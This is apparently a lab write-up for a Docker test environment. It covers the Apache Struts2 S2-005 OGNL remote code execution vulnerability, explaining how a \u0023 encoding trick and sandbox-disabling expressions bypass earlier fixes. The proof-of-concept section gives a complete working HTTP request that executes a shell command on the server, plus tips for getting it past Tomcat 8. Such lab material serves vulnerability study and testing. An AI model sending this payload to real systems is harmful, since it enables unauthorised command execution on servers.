 # S2-005 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.1.8.1
Vulnerability details: http://struts.apache.org/docs/s2-005.html

## Principle

Refer to Wu Hanqing's book "White Hat on Web Security".

> The origin of the s2-005 vulnerability originates from S2-003 (affected version: lower than Struts 2.0.12), and struts2 will parse each parameter name of http into an ong statement (considered as java code). The ongl expression accesses the struts object via #, and the struts framework prevents security issues by filtering # characters. However, the unicode encoding (\u0023) or octal (\43) bypasses the security restrictions. For the S2-003 vulnerability, The official patched by adding security configuration (disabling static method calls and class method execution, etc.), but the security configuration was bypassed again causing the vulnerability, and the attacker could use the OGNL expression to open these two options, the patching scheme of S2-003 Put yourself in a lock, but put the lock key on the lock

XWork will parse the keys and values ​​of the GET parameter into Java statements using OGNL expressions, such as:

```
User.address.city=Bishkek&user['favoriteDrink']=kumys
//will be converted into
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys")
```

The triggering vulnerability is to take advantage of this point, and in conjunction with OGNL's sandbox bypass method, constitutes S2-003. The official fix for 003 is to add a safe mode (sandbox). S2-005 closes the safe mode in the OGNL expression and bypasses the repair method. The overall process is as follows:

- S2-003 Use `\u0023` to bypass the defense of s2 against `#`
- S2-003 officially added security mode (sandbox)
- S2-005 Use the OGNL expression to close the sandbox and continue executing the code

## surroundings

Run the following command to start the s2-001 test environment.

```
Docker-compose build
Docker-compose up -d
```

## POC && EXP

Execute any command POC (no echo, space with `@` instead):

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution% 5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success% 22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

Some POCs on the Internet will return to 400 under tomcat8. After researching it, I found that the characters `\`, `"` can't be placed directly in the path, need urlencode, and then send it after encoding. This POC is not echoed.

POC used OGNL's Expression Evaluation:

![](1.jpeg)

It can be understood that `a(aaa)(bbb)` aa is used as the OGNL expression string, and bbb is the root object of the expression. Therefore, if the aaa position needs to execute the code, it needs to be wrapped in quotation marks, and the bbb position can be Place the Java statement directly. `(aaa)(bbb)=true` is actually `aaa=true`. However, how to understand exactly, it needs further research and needs to be optimized.

I look forward to studying the POC that has been echoed.